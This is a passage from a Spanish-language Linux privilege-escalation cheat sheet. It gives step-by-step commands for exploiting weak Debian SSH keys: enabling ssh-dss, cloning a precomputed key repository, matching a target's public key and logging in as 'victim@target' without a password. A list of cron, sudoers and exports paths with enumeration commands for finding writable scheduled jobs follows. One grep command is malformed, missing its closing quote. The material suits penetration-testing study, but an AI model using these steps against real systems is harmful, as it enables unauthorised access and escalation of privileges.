 2.      Dado que se trata de una clave `ssh-dss`, debemos agregarla a nuestra copia local de `/etc/ssh/ssh_config` y `/etc/ssh/sshd_config`:

```sh
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config 
echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/sshd_config 
/etc/init.d/ssh restart
```

3.      Obtenga el repositorio debian-ssh de g0tmi1k y descomprima las claves:

```sh
git clone https://github.com/g0tmi1k/debian-ssh
cd debian-ssh
tar vjxf common_keys/debian_ssh_dsa_1024_x86.tar.bz2
```

4.   Tome los primeros 20 o 30 bytes del archivo de claves que se muestra arriba, comenzando con la parte "AAAA..." y guarde las claves descomprimidas con él como:

```sh
grep -lr 'AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834yb dsa/1024/68b329da9893e34099c7d8ad5cb9c940-17934.pub
```

5.    SI TIENE ÉXITO, esto devolverá un archivo público (`68b329da9893e34099c7d8ad5cb9c940-17934.pub`). Para usar el archivo de clave privada para conectarse, elimine la extensión `.pub` y haga: 

```sh
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

Y deberías conectarte sin requerir una contraseña. Si se atasca, la verbosidad `-vvv` debería proporcionar suficientes detalles del motivo.

# Tareas programadas

### Trabajos cron
Compruebe si tiene acceso con permiso de escritura a estos archivos.
Consulte el interior del archivo para encontrar otras rutas con permisos de escritura.

```sh
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l

ls -alh /var/spool/cron 
ls -al /etc/ | grep cron 
ls -al /etc/cron* 
cat /etc/cron* 
cat /etc/at.allow 
cat /etc/at.deny 
cat /etc/cron.allow 
cat /etc/cron.deny*
```